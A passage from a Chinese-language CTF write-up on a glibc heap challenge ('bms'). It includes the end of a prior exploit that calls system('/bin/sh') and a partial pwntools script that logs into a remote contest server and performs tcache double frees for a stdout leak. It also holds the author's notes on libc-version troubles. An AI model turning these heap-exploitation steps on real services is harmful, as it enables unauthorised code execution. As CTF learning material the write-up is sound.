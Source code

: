 ```python
libc.address=base
#
add(0x17,"/bin/sh")
edit(0,p64(libc.symbols['system']),8)
log.warning(hex(base))
free(1)
p.interactive()#
```
# bms
前面部分是让我逆向队友做的不太清楚他就说啥被耍了什么的...
最坑的一道题,充分诠释了`做题5分钟，环境2小时`...
一开始以为是`2.23`搞了半天利用控制`bss`不停清空,`unsorted bin atk + partial write` 本地不开`aslr`可以了开了`1/4096`...然后打了半天没反应..
菜鸡的我完全没注意到群里面的公告...于是改变思路`ubuntu18.04+libc2.27`.8min完成exp(虽然是`1/256`不想改了..注意布局应该可以优化到`1/16`)...结果远程还是不行...
换成`ubuntu17.10+libc.26`..之前没有这个环境从0开始下了一个..迅雷真坑...
终于打通.
## Analysis
题目在`tcache`下没啥难度就是简单的`stdout_flag_leak`
可以看看之前的一题[HITCONE2018_babytcache][2]
## exp

```python
from pwn import *
def login():
	pass
def c(c):
	p.sendlineafter(">",str(c))
def ADD(size,des='A',name="\x00"*6):
	c(1)
	p.sendafter("name:",name)
	p.sendlineafter("size",str(size))
	p.sendafter("tion:",des)
def cmd(c):
	p.sendlineafter(">\n",str(c))
def add(size,des='A',name="\x00"*6):
	cmd(1)
	p.sendafter("name:",name)
	p.sendlineafter("size",str(size))
	p.sendafter("tion:",des)
def free(idx):
	cmd(2)
	p.sendlineafter("index:",str(idx))
def FREE(idx):
	c(2)
	p.sendlineafter("index:",str(idx))
#context.log_level='debug'
#p=process('./pwn')
p=remote("90b826377a05d5e9508314e76f2f1e4e.kr-lab.com",40001)
p.sendlineafter("name:","admin")
p.sendlineafter("d:","frame")
#libc=ELF("libc-2.27.so")
add(0x68)#0
add(0x88)#1
add(0x28)#2
for x in range(8):
	free(1)
for x in range(7):
	free(2)

```